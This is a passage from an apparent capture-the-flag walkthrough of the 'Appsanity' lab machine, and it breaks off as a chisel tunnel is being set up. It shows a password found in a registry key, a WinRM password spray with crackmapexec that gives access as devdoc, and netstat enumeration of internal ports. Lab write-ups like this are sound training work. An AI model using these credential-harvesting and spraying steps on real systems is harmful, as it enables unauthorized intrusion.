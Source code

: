 ```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\MedDigi"

HKEY_LOCAL_MACHINE\SOFTWARE\MedDigi
    EncKey    REG_SZ    1g0tTh3R3m3dy!!
```

The key looks suspiciously like a password. With WinRM open, we can try a password spray to see if any users have this as their password. First, use `net user` to get a list of users on the system:
```
User accounts for \\APPSANITY

-------------------------------------------------------------------------------
Administrator            DefaultAccount           devdoc                   
Guest                    svc_exampanel            svc_meddigi              
svc_meddigiportal        WDAGUtilityAccount       
The command completed successfully.
```
Since we are trying WinRM, we could also look for which users might have the privilege by being part of the Remote Users group:
```
PS C:\inetpub\ExaminationPanel\ExaminationPanel\bin> net localgroup 'Remote Management Users'
net localgroup 'Remote Management Users'
Alias name     Remote Management Users
Comment        Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management service). This applies only to WMI namespaces that grant access to the user.

Members

-------------------------------------------------------------------------------
devdoc
The command completed successfully.
```
If this is a password for any user, it is likely for `devdoc`. Fortunately, it is!
```
┌──(kali㉿kali)-[~/Documents/Appsanity]
└─$ cme winrm meddigi.htb -u devdoc -p '1g0tTh3R3m3dy!!'               
SMB         meddigi.htb     5985   NONE             [*] None (name:meddigi.htb) (domain:None)
HTTP        meddigi.htb     5985   NONE             [*] http://meddigi.htb:5985/wsman
WINRM       meddigi.htb     5985   NONE             [+] None\devdoc:1g0tTh3R3m3dy!! (Admin!) 
```
## Privilege Escalation
### Discovery of Reports Management Console
When enumerating internal ports, we can find yet another port we have not checked out before:
```
*Evil-WinRM* PS C:\Users\devdoc\Desktop> netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:100            0.0.0.0:0              LISTENING       4776
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       916
  TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       4912
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING       4
  <...SNIP...>
```
Notice the unusual port 100. We could have seen this earlier as `svc_exampanel`, but it is difficult to interact with through the reverse shell. Now with Evil-WinRM, we can easily establish a tunnel using chisel, then interact with the port on our local kali. First, uploading chisel:
